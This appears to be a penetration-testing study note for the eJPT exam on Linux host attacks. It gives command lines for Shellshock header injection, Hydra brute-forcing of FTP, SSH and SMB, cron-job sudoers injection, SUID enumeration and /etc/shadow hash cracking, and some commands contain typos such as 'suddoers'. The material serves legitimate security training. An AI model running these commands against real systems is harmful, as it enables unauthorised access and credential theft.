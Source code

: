 # Linux System/Host Based Attacks

## Exploiting Vulnerabilities for Initial Foothold

The most frequently exploited linux services are:

|     Name      |Protocol|Port Number|
|---------------|--------|-----------|
|     Apache    |   TCP  |   80/443  |
|     SSH       |   TCP  |   22      |
|     FTP       |   TCP  |   21      |
|     SAMBA     |   TCP  |   445     |

### Exploiting Apache 80/443

#### XDebug Vulnerabilty

If the page phpinfo.php displays that XDebug is enabled then a metasploit module can be used to obtain a remote code execuiton.

#### Shellshock vulnerablity

Its a common vulnerabilty showed on eJPT exams, the vuln root cause it's becouse Bash can execute trailing commands after the characters `() {:;};`, and Apache servers can run scripts python, perl, ruby or bashscripts, a common script used by apache servers are CGI. When a CGI script is executed a new process is initiated, this can be exploited via HTTP headers or parameters.

To confirm if a server is using a CGI script a common technique is to inspect the source code of the webpage. Then by launching `nmap -Pn -p 80 <ip> --script http-shellshock --script-args http-shellshock.uri=<path_to_CGI_script>`

While using Burpsuite and stoping the request to CGI script, a malicious header injection can be done by setting for example inside `User-Agent: () {:;}; echo; echo; /bin/bash -c '<command>'`

By using metasploit module `multi/http/apache_mod_cgi_bash_env_exec`

### Explpoiting FTP 21

For performing a bruteforce attack to an FTP server its commonly to use Hydra

`hydra -L <patho_to_user_dict> -P <pat_to_pass_dict> -t <threads> <ip> ftp`

Then for metasploit there are a lot of FTP modules for different FTP version use `search <FTP_server_type> <version>` or by using nmap `nmap --script ftp-brute --script-args userdb=<user_dict>,passdb=<pass_dict> -p 21 <ip>`

### Exploiting SSH 22

`hydra -L <patho_to_user_dict> -P <pat_to_pass_dict> -t <threads> <ip> ssh`

### Exploiting SAMBA

`hydra -L <patho_to_user_dict> -P <pat_to_pass_dict> -t <threads> <ip> smb`

`enum4linux -a <ip>`

`smbmap -u <user> -p <password> -H <ip>`

`smbclient -L <ip> -U <user>`
`smbclient //<ip>/<share> -U <user>`

## Privilege Escalations

### Linux Kernel Exploits

The kernel runs as the most privileged level on the system, but kernel exploits can cause the sytem to crash.

For indentifying kernel vulnerabilities the tools used are:
- [Linux-exploit-suggester](https://github.com/InteliSecureLabs/Linux_Exploit_Suggester)
- [Linux-exploit-suggester2](https://github.com/jondonas/linux-exploit-suggester-2)
- `Builtin Kali searchsploit` kali feature connected to Exploit DB

### Exploiting Linux Cron Jobs

Cron Jobs running as root user can be exploited by modifying the code with the malicious one.

To list all available cron jobs:
- `crontab -l`
- `ls -al /etc/cron* /etc/at*` 
- `cat /etc/cron* /etc/at* /etc/anacrontab /var/spool/cron/crontabs/root 2>/dev/null | grep -v "^#"`

If a file is in the temp dir then it can means that it is being copied from other directory every X minuts, to locate file it can be done with `grep` or utility by searching for a file in which content must contains the directory that is being copied.

`grep -rni "/tmp/message" / --exclude-dir=<dir_to_exclude> --exclude-dir=<dir_to_exclude> 2>/dev/null`

Then modify the script to add the actual user to the sudoers file by adding `echo "<user> ALL=(ALL) NOPASSWD: ALL" >> /etc/suddoers`

In case there is any type of text editor printf or echo funtions can be ussed either.

### Exploiting SUID

All SUID binaries can be enumerated by executing a find query

`find / -perm /4000 2>/dev/null`

For exploiting a specific SUID:

- [GTFObins](https://gtfobins.github.io/#+suid)
- If its a own developed binary file the tool `strings <file>` and `file <file>` will extract more info about shared objects

### Dumping Linux Hashes

All user info is stored in the `/etc/passwd` file, while the encrypted information is stored at `/etc/shadow` file.

When cracking hashes is important to notice which is the algorithm that was used, it can be done by indentifying the vaule after the username

| Value | Hashing Algorithm |
|-------|-------------------|
|   $1  |       MD5         |
|   $2  |       Blowfish    |
|   $5  |       SHA-256     |
|   $6  |       SHA-512     |

For cracking the extracted hashes:
- metasploit has a module `linux/gather/hashdump` and then pass the file for cracking passwords to the module `auxiliary/analyze/crack_linux`.
- Using hashcat tool `hashcat -m 1800 <file_containing_hashes> <wordlist>`.
- Using john, which will require to unshadow the `/etc/shadow` content with the `/etc/passwd` file by executing `unshadow <shadow_file> <passwd_file> > unshadow.txt`, the execute `john unshadow.txt --wordlist=<wordlist>`.